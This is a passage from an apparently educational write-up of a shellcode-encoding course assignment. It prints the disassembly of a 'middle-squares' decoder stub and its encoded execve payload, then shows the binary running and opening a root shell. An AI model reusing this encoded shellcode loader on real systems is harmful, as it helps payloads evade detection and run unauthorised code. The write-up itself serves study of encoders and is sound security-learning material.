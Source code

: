 The [reference decoder](https://github.com/fbcsec/slae-assignments/blob/master/4-custom-encoder/middle-squares-decoder.asm) detailed in this post and linked to on github decodes and runs an execve shellcode.

```
# objdump shellcode_host.elf -D -M intel
...
00002020 <shellcode>:
    2020:	eb 23                	jmp    2045 <shellcode+0x25>
    2022:	31 c9                	xor    ecx,ecx
    2024:	5e                   	pop    esi
    2025:	89 f7                	mov    edi,esi
    2027:	b8 94 32 5f 80       	mov    eax,0x805f3294
    202c:	b1 07                	mov    cl,0x7
    202e:	f7 e0                	mul    eax
    2030:	66 89 d0             	mov    ax,dx
    2033:	c1 c8 10             	ror    eax,0x10
    2036:	89 c3                	mov    ebx,eax
    2038:	0f cb                	bswap  ebx
    203a:	33 1f                	xor    ebx,DWORD PTR [edi]
    203c:	89 1f                	mov    DWORD PTR [edi],ebx
    203e:	83 c7 04             	add    edi,0x4
    2041:	e2 eb                	loop   202e <shellcode+0xe>
    2043:	ff e6                	jmp    esi
    2045:	e8 d8 ff ff ff       	call   2022 <shellcode+0x2>
    204a:	64 28 a2 16 09 19 00 	sub    BYTE PTR fs:[edx+0x190916],ah
    2051:	78 da                	js     202d <shellcode+0xd>
    2053:	da c5                	fcmovb st,st(5)
    2055:	a0 07 b5 f0 0f       	mov    al,ds:0xff0b507
    205a:	30 64 1d 9b          	xor    BYTE PTR [ebp+ebx*1-0x65],ah
    205e:	57                   	push   edi
    205f:	eb 8e                	jmp    1fef <_GLOBAL_OFFSET_TABLE_+0x1b>
    2061:	98                   	cwde   
    2062:	32                   	.byte 0x32
    2063:	9f                   	lahf   
    2064:	0a 00                	or     al,BYTE PTR [eax]
...
# ./shellcode_host.elf 
Shellcode length: 48
# id
uid=0(root) gid=0(root) groups=0(root)
# 

```

Note how the data at `000204a` is essentially garbage instructions. This is the encoded data that the stub decodes. 

Full Sources
============

## Reference Decoder
